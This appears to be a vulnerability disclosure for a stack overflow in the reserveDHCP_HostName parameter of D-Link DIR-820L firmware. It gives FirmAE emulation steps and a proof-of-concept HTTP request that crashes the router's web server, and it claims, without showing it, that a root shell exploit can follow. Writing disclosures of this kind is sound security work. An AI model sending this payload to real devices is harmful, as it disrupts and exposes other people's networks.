



# D-link DIR820LA1_FW106B02 Stack Overflow  vulnerability

A stack overflow vulnerability  in the variable "reserveDHCP_HostName_1.1.1.0" of the component "lan.asp" of D-Link DIR820LA1_FW106B02 allows attackers to escalate privileges to root via a crafted payload.

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ： https://www.dlinktw.com.tw/techsupport/download.ashx?file=3068

## 1. Affected version

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

The file directory where the vulnerability is located:`/sbin/ncc2`

The `sub_50A084` function obtains the content of the variable `reserveDHCP_HostName_1.1.1.0`  from the request of `/get_set.ccp`, use sprintf to copy input data. The length of the string is not considered, and the stack overflows when the input is too long.

v21's buffer is only 68 bytes




## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the FirmAE simulation firmware DIR820LA1_FW106B02.bin

```shell
./init.sh
sudo ./run.sh -c <brand> DIR820LA1_FW106B02.bin
```



2. Attack with the following POC attacks

​	**Attack Vector**：

`reserveDHCP_HostName_1.1.1.0=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa`



- Then find the DHCP Setting entry, and use Burp to modify the data message to be consistent with the poc

```xml
POST /get_set.ccp HTTP/1.1
Host: 192.168.0.1
Content-Length: 917
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.0.1
Referer: http://192.168.0.1/lan.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: hasLogin=1
Connection: close

ccp_act=set&old_ip=192.168.0.1&old_mask=255.255.255.0&new_ip=192.168.0.1&new_mask=255.255.255.0&nextPage=lan.asp&lanHostCfg_IPAddress_1.1.1.0=192.168.0.1&lanHostCfg_SubnetMask_1.1.1.0=255.255.255.0&lanHostCfg_DomainName_1.1.1.0=&lanHostCfg_DNSRelay_1.1.1.0=1&lanHostCfg_DHCPServerEnable_1.1.1.0=1&lanHostCfg_MinAddress_1.1.1.0=192.168.0.100&lanHostCfg_MaxAddress_1.1.1.0=192.168.0.200&lanHostCfg_DHCPLeaseTime_1.1.1.0=1440&lanHostCfg_DeviceName_1.1.1.0=dlinkrouter&lanHostCfg_AlwaysBroadcast_1.1.1.0=0&lanHostCfg_NetBIOSAnnouncement_1.1.1.0=0&lanHostCfg_NetBIOSLearn_1.1.1.0=0&lanHostCfg_NetBIOSScope_1.1.1.0=&lanHostCfg_NetBIOSNodeType_1.1.1.0=2&lanHostCfg_PrimaryWINSAddress_1.1.1.0=0.0.0.0&lanHostCfg_SecondaryWINSAddress_1.1.1.0=0.0.0.0&reserveDHCP_Enable_1.1.1.0=1&reserveDHCP_HostName_1.1.1.0=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa&reserveDHCP_Chaddr_1.1.1.0=C6:E0:6F:4C:9B:A5&reserveDHCP_Yiaddr_1.1.1.0=192.168.0.100&1675231457867=1675231457867
```

- web server crashed


Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell.